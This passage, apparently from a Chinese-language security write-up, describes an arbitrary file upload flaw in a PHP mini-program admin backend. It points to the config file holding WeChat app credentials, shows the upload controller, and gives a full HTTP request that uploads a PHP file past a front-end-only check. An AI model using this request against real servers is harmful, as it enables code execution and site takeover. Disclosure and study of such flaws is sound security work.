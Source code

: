 ```  
而小程序的配置文件存放在 /config/cfg/base.php 中，里边有微信小程序的名字，appid，appselect等信息  
0x02 后台任意文件上传漏洞  
  
在 /app/admin/controller/UploadFiles.php 控制器中，定义了upload方法为上传文件操作，但做了相应权限控制.  
```
/**
     * 文件上传
     * @return \think\response\Json
     * @throws OssException
     */
public function upload()
{
    $folder_name = $this->request->param('folder_name/s','file');
    $result = UploadFilesModel::upload($folder_name);
    return json($result);
  }
```  
  
**直接进后台，随便找个上传点都能上传php文件，就一前端限制，直接绕过即可.**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5eDI8kJ4OxzBtdBZLGIHIuxicDaiaUd7K9wEqINga60YwYeibVXq0iajrxic0iciaRftjDEI9o6pUcb5teXg/640?wx_fmt=png&from=appmsg "")  
Payload:```
POST /index.php/admin/upload_files/upload.html?&water=0 HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 197
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryYZ7xPRvKeHlg4VIw
Cookie: xxxxxxx
Host: 127.0.0.1:81
Origin: http://127.0.0.1:81
Referer: http://127.0.0.1:81/index.php/admin/upload_files/upload.html?&water=0
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="123", "Not:A-Brand";v="8", "Chromium";v="123"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1

------WebKitFormBoundary03rNBzFMIytvpWhy
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundary03rNBzFMIytvpWhy--
```  
  
